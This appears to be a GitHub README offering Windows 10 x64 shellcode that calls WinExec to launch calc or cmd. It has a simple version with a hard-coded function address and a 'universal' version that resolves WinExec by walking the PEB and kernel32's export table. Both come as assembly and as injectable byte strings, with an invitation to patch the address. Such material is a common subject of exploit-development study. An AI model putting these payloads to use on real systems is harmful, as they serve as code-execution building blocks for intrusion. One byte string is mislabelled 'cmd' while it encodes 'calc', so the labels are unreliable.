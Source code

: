 # Windows 10 x64 Shellcode
It normally works on Microsoft Windows [Version 10.0.19042.1110]
Shellcode implements `WinExec("calc", SW_SHOW)`
1. Simple Shellcode
2. Univeral Shellcode

## Simple Shellcode (when knowing WinExec's address)
When user knows WinExec's address like using [get_func_addr](./get_func_addr.py), it is not a bad choice to use this simple shellcode.
```assembly
; simple_shellcode.asm
.code
	SHELLCODE proc
; function prolog
		push rbp
		mov rbp, rsp
		sub rsp, 20h
; call WinExec("calc", SW_SHOW)
		mov byte ptr[rbp-20h],63h
		mov byte ptr[rbp-1fh],61h
		mov byte ptr[rbp-1eh],6ch
		mov byte ptr[rbp-1dh],63h
		mov byte ptr[rbp-1ch],0h
		mov rdx, 5h
		lea rcx, [rbp-20h]
		mov rax, 7ffcf37b5f80h
		call rax
; function epilogue
		mov rsp, rbp		
		pop rbp
		ret
	SHELLCODE endp
end
```

The binary code is as follows. Since this is when WinExec's address is 0x7ffcf37b5f80, you can easily edit `\x80\x5F\x7B\xF3\xFC\x7F\x00\x00` to your address.

```shell
# WinExec("calc", SW_SHOW), len : 56
\x55\x48\x8B\xEC\x48\x83\xEC\x20\xC6\x45\xE0\x63\xC6\x45\xE1\x61\xC6\x45\xE2\x6C\xC6\x45\xE3\x63\xC6\x45\xE4\x00\x48\xC7\xC2\x05\x00\x00\x00\x48\x8D\x4D\xE0\x48\xB8\x80\x5F\x7B\xF3\xFC\x7F\x00\x00\xFF\xD0\x48\x8B\xE5\x5D\xC3
# WinExec("cmd", SW_SHOW), len : 52
\x55\x48\x8B\xEC\x48\x83\xEC\x20\xC6\x45\xE0\x63\xC6\x45\xE1\x6D\xC6\x45\xE2\x64\xC6\x45\xE3\x00\x48\xC7\xC2\x05\x00\x00\x00\x48\x8D\x4D\xE0\x48\xB8\x80\x5F\x7B\xF3\xFC\x7F\x00\x00\xFF\xD0\x48\x8B\xE5\x5D\xC3
```



## Universal Shellcode

This is the universal shellcode in Windows 10 x64. It parses TEB -> PEB -> ... -> kernel32.dll so that calculates `WinExec`'s Address.

```assembly
.code
	;
	; Universal SHELLCODE by ch4rli3kop
	;
	; This Universal Shellcode parse TEB and the export table in PE file 
	; to calculate WinExec's address 
	;
	; rbp-20h <- string 'calc'
	;
	; rax <- general purpose / Ordinal
	; rbx <- kernel32.dll base address / Function 'WinExec' Address
	; rcx <- export table address / AddressOfFunctions
	; rdx <- AddressOfNames
	; rdi <- AddressOfNameOrdinals
	; rsi <- Function Name
	; r8  <- String 'WinExec\x00'
	; r9  <- Function Address Offset
	;
	UNIVERSAL_SHELLCODE proc
	; function prolog
		push rbp
		mov rbp, rsp
		sub rsp, 20h

	; initialize
		xor rax, rax
		xor rbx, rbx
		xor rcx, rcx
		xor rdx, rdx
		xor rdi, rdi

	; get kernel32.dll base address
		xor rax, rax
		mov rax, gs : [rax+60h]		; get PEB address
		mov rax, [rax+18h]			; _PEB_LDR_DATA offset
		mov rax, [rax+20h]			; .exe InMemoryOrderModuleList
		mov rax, [rax]				; ntdll.dll InMemoryOrderModuleList
		mov rax, [rax]				; kernel32.dll InMemoryOrderModuleList
		mov rbx, [rax+20h]			; -0x10 + 0x30 / get dll base

	; get export table
		mov ecx, [rbx+3ch]			; get _IMAGE_NT_HEADERS64 start Offset
		add rcx, rbx				; get _IMAGE_NT_HEADERS64 start address
		mov ecx, [rcx+88h]			; 0x18(Optional Header Offset) + 0x70(Data Directory) + 0x0(Export Table index) / get  _IMAGE_EXPORT_DIRECTORY start Offset
		add rcx, rbx				; get _IMAGE_EXPORT_DIRECTORY start address
		
		mov edx, [rcx+20h]			; 0x20 get AddressOfNames Offset
		add rdx, rbx				; get AddressOfNames address
		mov edi, [rcx+24h]			; 0x20 get AddressOfNameOrdinals Offset
		add rdi, rbx				; get AddressOfNameOrdinals address
		mov ecx, [rcx+1ch]			; 0x20 get AddressOfFunctions Offset
		add rcx, rbx				; get AddressOfFunctions address

	; get function address
	
		xor rax, rax				; rax is index
		mov r8, 636578456e6957h		; 'WinExec\x00'
		
		not_found :
		xor rsi, rsi				; rsi is Name Pointer Table Entry
		mov esi, [rdx+4*rax]		; get Name Pointer Table Entry offset		
		add rsi, rbx				; Function Name String address
		mov rsi, [rsi]				; String Value (8 bytes)
		cmp r8, rsi					; compare 'WinExec'
		je found
		inc rax						; index++
		jmp not_found
		
		found :
		; rax is index
		xor r8, r8
		xor r9, r9
		mov r8w, [rdi+2*rax]		; get ordinal by index
		mov r9d, [rcx+4*r8]			; get function offset by ordinal
		add rbx, r9					; get function address

	; call WinExec("calc", SW_SHOW)
		mov byte ptr[rbp-20h],63h	; 'c'
		mov byte ptr[rbp-1fh],61h	; 'a'
		mov byte ptr[rbp-1eh],6ch	; 'l'
		mov byte ptr[rbp-1dh],63h	; 'c'
		mov byte ptr[rbp-1ch],0h
		mov rdx, 5h					; parameter 2
		lea rcx, [rbp-20h]			; parameter 1
		call rbx					; call WinExec()

	; function epilogue
		mov rsp, rbp		
		pop rbp
		ret
	UNIVERSAL_SHELLCODE endp
end
```

The binary code is as follows. I do not remove the null character now. I will do it later.

```shell
# WinExec("cmd", SW_SHOW), len : 173
\x55\x48\x8B\xEC\x48\x83\xEC\x20\x48\x33\xC0\x48\x33\xDB\x48\x33\xC9\x48\x33\xD2\x48\x33\xFF\x48\x33\xC0\x65\x48\x8B\x40\x60\x48\x8B\x40\x18\x48\x8B\x40\x20\x48\x8B\x00\x48\x8B\x00\x48\x8B\x58\x20\x8B\x4B\x3C\x48\x03\xCB\x8B\x89\x88\x00\x00\x00\x48\x03\xCB\x8B\x51\x20\x48\x03\xD3\x8B\x79\x24\x48\x03\xFB\x8B\x49\x1C\x48\x03\xCB\x48\x33\xC0\x49\xB8\x57\x69\x6E\x45\x78\x65\x63\x00\x48\x33\xF6\x8B\x34\x82\x48\x03\xF3\x48\x8B\x36\x4C\x3B\xC6\x74\x05\x48\xFF\xC0\xEB\xEA\x4D\x33\xC0\x4D\x33\xC9\x66\x44\x8B\x04\x47\x46\x8B\x0C\x81\x49\x03\xD9\xC6\x45\xE0\x63\xC6\x45\xE1\x61\xC6\x45\xE2\x6C\xC6\x45\xE3\x63\xC6\x45\xE4\x00\x48\xC7\xC2\x05\x00\x00\x00\x48\x8D\x4D\xE0\xFF\xD3\x48\x8B\xE5\x5D\xC3
```

